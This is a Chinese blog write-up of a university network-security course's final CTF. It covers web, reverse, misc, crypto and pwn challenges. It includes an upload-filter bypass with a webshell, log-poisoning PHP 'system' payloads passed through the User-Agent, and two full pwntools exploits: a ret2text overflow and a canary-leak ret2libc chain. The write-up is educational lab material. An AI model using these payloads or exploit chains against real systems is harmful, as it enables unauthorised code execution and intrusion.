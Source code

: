 ```yaml
---
title: HUST - 网安实践4结课CTF试题
image: "https://i.postimg.cc/sXXV0rFM/7c1252b73d14f048c18e847d38cd7a12.jpg"
published: 2024-12-19
description: 2022届网安实践4CTF试题
tags: [CTF, HUST]
category: CTF
draft: false
---
```


由于课程关闭，无法进行复现，因此主要使用语言描述。

## Web1-简单文件上传

看源码发现过滤了php等关键词，但是处理的时候只删除了一次，所以可以进行双写绕过。传入木马文件后蚁剑连接得到flag。

## Web2-文件包含进阶

通过 POST 请求传入 hust=/var/log/apache2/access.log，设置 User-Agent 为 \<?php system("ls")?\>成功看到回显，再次传入\<?php system("cat fl4g.php");?\>，得到flag。

## Reverse1-我的ida怎么坏了

课程原题，不再重复。

## Reverse2-带衣服的程序

看了一眼，发现套了upx壳，使用upx -d脱壳。

## MISC1-我的报告呢

根据提示是pdf文件，在流量包中找到文件，此外还在myname里找到了pdf的密码。打开pdf后没有啥有效信息，一开始以为是wbStego4.3open加密，结果弄不出来，最后把它转成了word后，能得到flag。

## MISC2-BB空间

伪加密，修正后解压得到二维码，依据各个文件名确定位置拼出二维码，扫描后得到一串数字，结合题目，在bilibili中搜索，找到一个用户，定位到他的最新视频。发现在视频简介中说明了视频中每个句子对应的符号。下载音频用audacity比对摘写，得到一串摩斯密码，解码后得到flag。

## Crypto1-奇怪的RSA

写完以后跑了一下发现有问题，说是没有逆，猜测是ehephi不互素了，验证了一下发现e和q-1不互素。改一下代码，转化到模p下来求解。

```python
# coding=gbk
import gmpy2
from Crypto.Util.number import *
from math import ceil, sqrt
from random import choice
from gmpy2 import *
e = 65537
p = 7861284553623919323985859832007323477428670056827930254749054233285002288342251190742960221895692365421571559655657906508077200676209583363642503410091987
q = 12190036856294802286447270376342375357864587534233715766210874702670724440751066267168907565322961270655972226761426182258587581206888580394726683112820379
c = 82847779812851057890043530756832889487859832046106654912667214872414017036311911272053848097280235944007447512360040509400105818809700630697569934731411705662409382305951636397690516111461818016905840116265739235873533920070957680510890443904586797027770509200983712548635748894266511224103615999307792279118
n = p*q
# _gcd = gcd(e,(p-1)*(q-1)) # 65537
gcd_q = gcd(e,p-1) # 1

d = inverse(e,p-1)
m = pow(c,d,p)
print(long_to_bytes(int(m)))
```

## Crypto2-AES加密

## PWN1-ret2text

常规栈溢出，程序也给了system和/bin/sh。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

#p = process("./2pwn.bin")
p = remote('172.17.0.15',17831)

binsh = 0x4023FF
system = 0x401B21
pop_rdi_ret = 0x401c73

payload = b'a'*72+p64(pop_rdi_ret)+p64(binsh)+p64(system)
p.sendline(payload)

p.interactive()
```



## PWN2-canary

程序没有给system或/bin/sh，也没说libc版本。所以要利用puts泄露libc版本和libc基址。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

p = process("./pwn.bin")
elf = ELF("./pwn.bin")
#p = remote('172.17.0.15',14375)

pop_rdi = 0x401343
ret=0x40101a
binsh = 0x404058
system=0x4010b0

payload1=b'a'*72
p.sendlineafter('name?',payload1)

p.recvuntil(b'a'*72)
canary=u64(p.recv(8))-0xa

print(hex(canary))

payload = cyclic(72)+p64(canary)+p64(0)+p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(elf.sym["main"])

p.sendlineafter('stack!',payload)

puts = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts))

libc=LibcSearcher("puts",puts)

libcbase=puts-libc.dump('puts')
system=libcbase+libc.dump('system')
binsh=libcbase+libc.dump('str_bin_sh')
print(hex(system))
print(hex(binsh))

payload=cyclic(72)+p64(canary)+p64(0)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendlineafter('name?',b'1')
p.sendlineafter('stack!',payload)
p.interactive()
```

